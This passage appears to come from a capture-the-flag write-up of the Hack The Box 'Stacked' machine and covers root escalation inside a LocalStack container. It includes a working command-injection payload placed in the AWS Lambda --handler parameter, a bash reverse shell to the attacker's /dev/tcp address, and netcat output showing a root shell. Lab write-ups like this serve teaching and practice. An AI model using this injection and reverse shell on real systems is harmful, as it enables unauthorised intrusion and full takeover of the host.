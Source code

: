##### Privilege escalation in the container
Let’s enumerate running processes executed by root:
```bash
/opt/code/localstack $ ps -a | grep root
    1 root      0:00 {docker-entrypoi} /bin/bash /usr/local/bin/docker-entrypoint.sh
   14 root      0:03 {supervisord} /usr/bin/python3.8 /usr/bin/supervisord -c /etc/supervisord.conf
   16 root      0:01 tail -qF /tmp/localstack_infra.log /tmp/localstack_infra.err
   21 root      0:00 make infra
   23 root      0:26 python bin/localstack start --host
   91 root      0:27 java -Djava.library.path=./DynamoDBLocal_lib -Xmx256m -jar DynamoDBLocal.jar -port 46079 -dbPath /var/localstack/data/dynamodb
  106 root      0:00 node /opt/code/localstack/localstack/node_modules/kinesalite/cli.js --shardLimit 100 --port 35293 --createStreamMs 500 --deleteStreamMs 500 --updateStreamMs 500 --path /var/localstack/data/kinesis
  516 localsta  0:00 grep root
  ```

### Root on localstack (Privilege escalation in the container)
##### pspy when calling the lambda function
We can see that the string `lambda.apiHandler`, which is the same as the --handler parameter we set, is passed to the command. This turns out to be injectable as user input is not sanitized, allowing us to execute arbitrary OS commands.

```bash
aws lambda --endpoint=http://s3-testing.stacked.htb create-function \
    --region ap-northeast-1 \
    --function-name "injectinghandler01" \
    --runtime nodejs8.10 \
    --handler 'lambda.apiHandler $(/bin/bash -c "bash -i >& /dev/tcp/10.10.16.4/9999 0>&1")' \
    --memory-size 128 \
    --zip-file fileb://api-handler.zip \
    --role arn:aws:iam::123456:role/irrelevant

aws lambda --endpoint=http://s3-testing.stacked.htb invoke \
	--region ap-northeast-1 \
	--function-name "injectinghandler01" out
    ```

```bash
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.228.28] 33078
bash: cannot set terminal process group (557): Not a tty
bash: no job control in this shell
bash-5.0# whoami
whoami
root
```

##### Alternative way
* https://7rocky.github.io/en/htb/stacked/#privilege-escalation-in-the-container
